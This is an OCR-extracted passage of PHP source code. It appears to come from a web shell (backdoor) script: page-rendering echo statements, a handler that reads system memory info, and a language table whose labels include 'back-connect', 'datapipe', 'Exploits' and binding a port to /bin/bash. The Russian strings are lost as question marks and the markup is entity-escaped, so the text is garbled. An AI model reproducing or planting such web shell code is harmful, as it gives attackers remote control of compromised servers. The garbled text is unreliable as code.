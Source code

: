    echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
   die();
 }
if(isset($_GET['mem']))
 {
   echo $head;
   echo '&lt;table width=100%&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;b&gt;MEMORY&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width=100%&gt;';
   $memf = @file("meminfo");
   if($memf)
    {
      $c = sizeof($memf);
      for($i=0;$i&lt;$c;$i++)
        {
          $info = explode(":",$memf[$i]);
          if($info[1]==""){ $info[1]="---"; }
          $r .= '&lt;tr&gt;&lt;td&gt;'.ws(3).'&lt;font face=Verdana size=-2&gt;&lt;b&gt;'.trim($info[0]).'&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;'.trim($info[1]).'&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;';
        }
      echo $r;
    }
   else
    {
      echo '&lt;tr&gt;&lt;td&gt;'.ws(3).'&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt; --- &lt;/b&gt;&lt;/font&gt;&lt;/div&gt;&lt;/td&gt;&lt;/tr&gt;';
    }
   echo '&lt;/table&gt;';
   echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
   die();
 }
$lang=array(
'ru_text1' =&gt;'??????????? ???????',
'ru_text2' =&gt;'?????????? ?????? ?? ???????',
'ru_text3' =&gt;'????????? ???????',
'ru_text4' =&gt;'??????? ??????????',
'ru_text5' =&gt;'???????? ?????? ?? ??????',
'ru_text6' =&gt;'????????? ????',
'ru_text7' =&gt;'??????',
'ru_text8' =&gt;'???????? ?????',
'ru_butt1' =&gt;'?????????',
'ru_butt2' =&gt;'?????????',
'ru_text9' =&gt;'???????? ????? ? ???????? ??? ? /bin/bash',
'ru_text10'=&gt;'??????? ????',
'ru_text11'=&gt;'?????? ??? ???????',
'ru_butt3' =&gt;'???????',
'ru_text12'=&gt;'back-connect',
'ru_text13'=&gt;'IP-?????',
'ru_text14'=&gt;'????',
'ru_butt4' =&gt;'?????????',
'ru_text15'=&gt;'???????? ?????? ? ?????????? ???????',
'ru_text16'=&gt;'????????????',
'ru_text17'=&gt;'????????? ????',
'ru_text18'=&gt;'????????? ????',
'ru_text19'=&gt;'Exploits',
'ru_text20'=&gt;'????????????',
'ru_text21'=&gt;'????? ???',
'ru_text22'=&gt;'datapipe',
'ru_text23'=&gt;'????????? ????',
'ru_text24'=&gt;'????????? ????',
'ru_text25'=&gt;'????????? ????',